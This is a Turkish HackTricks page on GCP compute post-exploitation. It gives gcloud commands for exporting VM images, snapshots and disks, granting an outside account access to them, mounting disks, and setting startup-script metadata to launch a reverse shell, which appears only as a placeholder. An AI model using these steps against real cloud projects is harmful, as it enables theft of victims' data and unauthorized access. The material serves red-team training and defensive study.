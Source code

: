 # GCP - Compute Post Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Compute

Compute ve VPC (Ağ) hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Görüntüleri yerel olarak dışa aktarın ve inceleyin

Bu, bir saldırganın **zaten mevcut görüntülerde bulunan verilere erişmesine** veya **çalışan VM'lerin yeni görüntülerini oluşturmasına** ve çalışan VM'ye erişim olmadan verilerine erişmesine olanak tanır.

Bir VM görüntüsünü bir bucket'a dışa aktarmak ve ardından indirmek ve yerel olarak bağlamak mümkündür. 

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Bu işlemi gerçekleştirmek için saldırganın depolama kovası üzerinde yetkilere ve kesinlikle **cloudbuild üzerinde yetkilere** ihtiyacı olabilir, çünkü bu **hizmet** dışa aktarma işlemini gerçekleştirmesi istenecektir.\
Ayrıca, bunun çalışması için codebuild SA ve compute SA'nın ayrıcalıklı izinlere ihtiyacı vardır.\
Cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` için gerekli olanlar:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Ve SA `<project-id>-compute@developer.gserviceaccount.com` için gerekli olanlar:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Anlık Görüntüleri ve Diskleri Yerel Olarak Dışa Aktarma ve İnceleme

Anlık görüntüleri ve diskleri doğrudan dışa aktarmak mümkün değildir, ancak **bir anlık görüntüyü bir diske, bir diski bir görüntüye dönüştürmek** ve **önceki bölümdeki** adımları takip ederek, o görüntüyü dışa aktararak yerel olarak incelemek mümkündür.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Bir VM Oluşturarak Bir Görüntüyü İnceleme

Bir saldırganın **bir görüntü oluşturduğu** yerden **bir görüntüde depolanan verilere** veya **çalışan bir VM** içindeki verilere erişim sağlama amacıyla, bir dış hesaba görüntüye erişim izni vermek mümkündür:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
ve ardından ondan yeni bir VM oluşturun:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Eğer dış hesabınıza görüntü üzerinden erişim veremiyorsanız, kurbanın projesinde o görüntüyü kullanarak bir VM başlatabilir ve **metadata'yı bir ters shell çalıştıracak şekilde ayarlayarak** görüntüye erişmek için parametre ekleyebilirsiniz:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Bir Snapshot/Disk'i Bir VM'ye Bağlayarak İnceleme

**Bir disk veya snapshot'ta depolanan verilere erişim sağlama amacıyla, snapshot'ı bir diske, diski bir imaja dönüştürebilir ve önceki adımları takip edebilirsiniz.**

Ya da **bir dış hesaba disk üzerinde erişim verebilirsiniz** (başlangıç noktası bir snapshot ise, snapshot üzerinde erişim verin veya ondan bir disk oluşturun):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Bir diski** bir örneğe ekleyin:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Diski VM içinde bağlayın:

1.  **VM'ye SSH ile bağlanın**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Diski Tanımlayın**: VM'ye girdikten sonra, disk cihazlarını listeleyerek yeni diski tanımlayın. Genellikle, `/dev/sdb`, `/dev/sdc` gibi bulabilirsiniz.
3. **Diski Formatlayın ve Bağlayın** (eğer yeni veya ham bir diskse):
*   Bir bağlama noktası oluşturun:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Diski bağlayın:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Eğer **snapshot veya diske dış bir projeye erişim veremiyorsanız**, bu işlemleri **snapshot/disk ile aynı projedeki bir örnek içinde gerçekleştirmeniz gerekebilir**.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
